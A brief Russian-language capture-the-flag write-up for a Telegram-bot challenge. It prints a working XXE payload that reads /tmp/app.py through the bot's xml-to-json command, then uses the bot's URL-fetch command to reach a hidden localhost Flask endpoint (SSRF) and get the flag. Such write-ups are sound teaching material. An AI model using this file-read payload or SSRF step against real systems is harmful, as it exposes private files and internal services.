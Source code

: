 1. замечаем, что в описании тг-бота написано  `TODO: do NOT forget to remove /tmp/app.py file`
2. Находим ххе с возможностью чтения файлов, читаем файл /tmp/app.py в команде 
xml <-> json
```
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///tmp/app.py"> ]>
<foo>&xxe;</foo>
```

3. получаем /tmp/app.py в виде json в ответе от бота
видим, что там поднят фласк с одной ручкой localhost/flag_secret_url_2986c04d-4180-4dd6-a20d-21d3651333f4

4. Отдаем в команду xml2jsonfromurl http://127.0.0.1/flag_secret_url_2986c04d-4180-4dd6-a20d-21d3651333f4

5. Получаем флаг